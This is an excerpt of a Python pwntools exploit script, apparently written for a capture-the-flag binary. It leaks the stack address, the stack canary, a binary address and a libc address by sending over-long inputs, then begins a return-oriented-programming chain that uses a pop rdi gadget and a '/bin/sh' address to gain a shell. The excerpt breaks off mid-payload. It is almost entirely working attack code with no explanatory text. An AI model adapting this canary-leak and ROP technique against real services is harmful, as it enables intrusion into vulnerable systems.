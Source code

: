 ```python
    if play == None:
        return r.recvuntil('Test Version only support for admin~')
    r.recvuntil('Content: ')
 
    # Leak stack
    payload = 'A' * (8 * 4)
    r.send(payload)
    stack = r.recvuntil('\n').split(payload)[1]
    if len(stack) < 6:
        print("LEAK STACK FAILED")
        exit(1)
    stack = stack[:6].ljust(8, '\x00')
    stack = u64(stack) - 0x140
    print("STACK = {}".format(hex(stack)))

    # Leaking canary
    payload = 'A' * (8 * 5 + 1)
    r.send(payload)
    canary = r.recvuntil('\n').split(payload)[1]
    if len(canary) < 7:
        print("LEAK CANARY FAILED")
        exit(1)
    canary = canary[:7].rjust(8, '\x00')
    canary = u64(canary)
    print("CANARY = {}".format(hex(canary)))

    # Leaking binary
    payload = 'A' * (8 * 12)
    r.send(payload)
    binleak = r.recvuntil('\n').split(payload)[1]
    if len(binleak) < 6:
        print("LEAK BINARY FAILED")
        exit(1)
    binleak = binleak[:6].ljust(8, '\x00')
    binleak = u64(binleak)
    print("BINLEAK = {}".format(hex(binleak)))

    binbase = binleak - bin_offset
    print("BIN BAsE = {}".format(hex(binbase)))

    # Leaking libc
    payload = 'A' * (8 * 13)
    r.send(payload)
    libcleak = r.recvuntil('\n').split(payload)[1]
    if len(libcleak) < 6:
        print("LEAK LIBC FAILED")
        exit(1)
    libcleak = u64(libcleak[:6].ljust(8, '\x00'))
    print("LIBCLEAK = {}".format(hex(libcleak)))

    libcbase = libcleak - libc_offset
    print("LIBC BASE = {}".format(hex(libcbase)))
    
    for k in addrs.keys():
        addrs[k] += libcbase

    payload = 'A' * (8 * 2)
    payload += p64(addrs['binsh'])
    payload += '\x00' * (8 * 2)
    payload += p64(canary)
    payload += 'B' * 8
    payload += p64(addrs['poprdi'])
    payload += p64(addrs['binsh'])
```